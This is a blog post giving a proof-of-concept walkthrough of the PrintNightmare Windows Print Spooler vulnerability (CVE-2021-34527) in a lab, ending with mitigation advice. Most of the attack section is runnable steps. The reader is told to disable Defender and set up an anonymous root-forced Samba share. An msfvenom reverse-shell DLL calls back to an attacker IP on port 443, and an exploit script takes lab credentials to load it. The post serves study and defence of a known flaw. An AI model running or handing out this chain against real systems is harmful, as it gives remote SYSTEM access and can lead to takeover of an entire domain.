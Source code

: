 ```yaml
---
title: PrintNightmare PoC - (CVE-2021-34527)
author: Vinay Sudheer
date: 2021-07-05
categories: [PoC]
tags: [Windows, PoC]
pin: true
math: true
mermaid: true
#image:
  #path: #/commons/devices-mockup.png
  #lqip: #data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  #alt: #Responsive rendering of Chirpy theme on multiple devices.
---
```


This is a short take relating to the recent spooler bug that was discovered in the windows environment, marked by CVE-2021-34527. This flaw is proven to be exploited to achieve remote code execution on windows environments that has not disabled this service and is kept up and running.

## About CVE-2021-34527

[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) was discovered by [researcher](https://twitter.com/edwardzpeng?lang=en), this flaw was initially classified as a Low severity vulnerability which can only be exploited for Privilege Escalation. But on June 21, 2021 the severity was changed to Critical as it was discovered that this bug allows authenticated remote code execution.

By taking advantage of this flaw an attacker could potentially get System level Administrative access on the Domain Controller in an Active Directory environment which can lead to the take over of the entire network/organisation. Various versions affected are Windows Server (2004, 2008, 2008 R2, 2012, 2012 R2, 2016, 2019, 20H2) and Windows (7, 8.1, RT 8.1, 10).

Windows Print Spooler service is by default enabled with all windows versions and is used to schedule printing jobs, find the printers in the network and so on. It's an old windows component (20+ years) and researchers find bugs in it occasionally. Ten years ago the notorious stuxnet worm that made damages to the nuclear plant in Iran was due to exploiting a similar bug which was embedded in the Windows Spooler service.

Microsoft Windows Print Spooler fails to restrict access to [RpcAddPrinterDriverEx()](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) function, in windows 10 this function can be seen in the snap-in module called printmanagement.msc. The module can be reached via the "Printers and Scanners" available in the settings. In this module by default it allows the operation of management of Print Server which means that a new print server can be added or modified by the current user(Low privileged) in the system.

![image-20210705112432286](/assets/img/CVE-2021-34527/image-20210705112432286.png)

## PoC

This is a replication of the PoC from [Cube0x0](https://github.com/cube0x0/CVE-2021-1675). Credit to [Jaacostan](https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html) for his article which I referred to while creating this PoC of mine. This Proof of Concept demonstration will be confined to Windows 10 environment and the attacking system(Kali Linux). This version of Windows 10 doesn't have the latest patch installed and is running as a Virtual Machine.

Before starting of make sure that Windows Firewall and Defender are disabled. This is because in the later steps we'll be using a generic payload which doesn't have any encoding or defence evasion techniques implemented in it, when this is the case the Windows Defender will detect the payload and flag it as malicious when it's trying to retrieve and execute it from the hosted path in the attackers system.

![image-20210704214647576](/assets/img/CVE-2021-34527/image-20210704214647576.png)

![image-20210704214732860](/assets/img/CVE-2021-34527/image-20210704214732860.png)

Made a note of the Local address of Win10.

![image-20210704214754639](/assets/img/CVE-2021-34527/image-20210704214754639.png)

Set up a samba share with anonymous login enabled on the attacking machine. This is required for hosting the malicious .dll payload. Make changes to the smb.conf file located at /etc/samba/smb.conf. I'd advise to create a backup of this file before making any changes. Add the following lines to the end of the smb.conf configuration file.

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[public]
    comment = Samba
    path = /var/public
    guest ok = yes
    read only = no
    browsable = yes
    force user = root
```

![image-20210704214844003](/assets/img/CVE-2021-34527/image-20210704214844003.png)

Here the share folder is in /var/public. The payload must be hosted here. Folder can be named anything, make sure the name is changed in the configuration file.

Create a folder in /var/ named public if it's not already present

```
sudo mkdir /var/public
```

Provide the necessary permissions

```
sudo chmod 0777 /var/public
```

Restart the samba service for the changes to take effect

```
systemctl restart smbd
```

Install the version of impacket version which is mentinoned in Cube0x0 PoC by the following

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Make a note of the attacker machine Local IP address.

![image-20210704215959333](/assets/img/CVE-2021-34527/image-20210704215959333.png)

Create the .dll payload using msfvenom.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=172.16.104.1 LPORT=443 -f dll -o ./revshell.dll
```

![image-20210704215148765](/assets/img/CVE-2021-34527/image-20210704215148765.png)

Copy the revshell.dll to the samba share folder in /var/public.

Clone the exploit file locally from the repository https://github.com/cube0x0/CVE-2021-1675

Now listen on port 443 using Netcat and trigger the exploit.

./CVE-2021-1675.py [domain]/[username]:[password]@target '\\\Location of share'

```
./CVE-2021-1675.py Test:Testrainbow6@172.16.104.129 '\\172.16.104.1\\public\\revshell.dll'
```

![image-20210704215118484](/assets/img/CVE-2021-34527/image-20210704215118484.png)

![image-20210704215206211](/assets/img/CVE-2021-34527/image-20210704215206211.png)

## Mitigation

Microsoft recommends to apply security update patches released on 8th June, 2021, it is also recommended to disable the Print spooler service if not in use.

- Check if spooler service is running

```powershell
Get-Service -Name Spooler
```

- If the service is described as running, perfrom the following-

  a. **Disable the Print spooler service**

  ```powershell
  Stop-Service -Name Spooler -Force

  Set-Service -Name Spooler -StartupType Disabled
  ```

  Note: Disabling the service disables the ability to print locally and remotely

  b. **Disable inbound remote printing through Group Policy**

  Go to Computer Configuration / Administrative Templates / Printers

  Disable the “Allow Print Spooler to accept client connections:” policy to block remote attacks.

  You must restart the Print Spooler service for the group policy to take effect.

  Refer to the this Microsoft article for the workaround (https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-34527)

## Credits

- https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html

- https://github.com/cube0x0/CVE-2021-1675

- https://github.com/JohnHammond/CVE-2021-34527

- https://www.blog.afine.academy/exploit-na-windowsa-10-czyli-eskalacja-przywilejow-made-in-poland/

- https://msandbu.org/printnightmare-cve-2021-1675/
